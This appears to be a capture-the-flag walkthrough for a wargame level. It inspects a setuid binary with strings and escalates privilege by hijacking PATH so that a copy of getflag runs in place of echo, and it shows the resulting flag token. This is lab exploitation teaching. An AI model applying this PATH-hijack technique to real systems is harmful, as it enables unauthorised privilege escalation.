 # Level03

    level03: ls -al
    dr-x------ 1 level03 level03  120 Mar  5  2016 .
    d--x--x--x 1 root    users    340 Aug 30  2015 ..
    -r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
    -r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
    -r-x------ 1 level03 level03  675 Apr  3  2012 .profile
    level03: ./level03
    Exploit me
    level03: strings level03
    ...
    /usr/bin/env echo Exploit me
    ...
 We now see that echo is used by the binary level03, 
 we are gonna trick the binary into using getflag instead of echo:
 

    mkdir /tmp/test
    cp /bin/getflag /tmp/test
    mv getflag echo
    export PATH=/tmp/test:$PATH
    ./level03
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
